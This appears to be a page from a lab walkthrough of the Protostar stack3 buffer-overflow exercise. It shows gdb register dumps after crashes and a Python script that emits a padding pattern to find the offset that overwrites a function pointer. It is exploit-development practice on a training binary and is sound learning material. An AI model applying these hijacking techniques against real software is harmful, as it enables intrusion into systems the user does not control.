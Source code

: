 ```css
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) info registers
eax            0x41414141	1094795585
ecx            0x0	0
edx            0xb7fd9340	-1208118464
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff73c	0xbffff73c
ebp            0xbffff7a8	0xbffff7a8
esi            0x0	0
edi            0x0	0
eip            0x41414141	0x41414141
eflags         0x210292	[ AF SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) 
```

login to another ssh
```css
user@protostar:~$ cd /tmp/
user@protostar:/tmp$ vi stack.py
user@protostar:/tmp$ vi stack.py
user@protostar:/tmp$ cat stack.py 
print("AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT")
user@protostar:/tmp$ 
user@protostar:/tmp$ python stack.py 
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT
user@protostar:/tmp$ python stack.py > exp
user@protostar:/tmp$ cat exp
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT
user@protostar:/tmp$ 
```


```css
(gdb) b *0x08048475
Breakpoint 1 at 0x8048475: file stack3/stack3.c, line 22.
(gdb) r < /tmp/exp 
Starting program: /opt/protostar/bin/stack3 < /tmp/exp
calling function pointer, jumping to 0x52525252

Breakpoint 1, 0x08048475 in main (argc=1, argv=0xbffff854) at stack3/stack3.c:22
22	stack3/stack3.c: No such file or directory.
	in stack3/stack3.c
(gdb) info registers
eax            0x52525252	1381126738
ecx            0x0	0
edx            0xb7fd9340	-1208118464
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff740	0xbffff740
ebp            0xbffff7a8	0xbffff7a8
esi            0x0	0
edi            0x0	0
eip            0x8048475	0x8048475 <main+61>
eflags         0x200292	[ AF SF IF ID ]
cs             0x73	115
ss             0x7b	123
```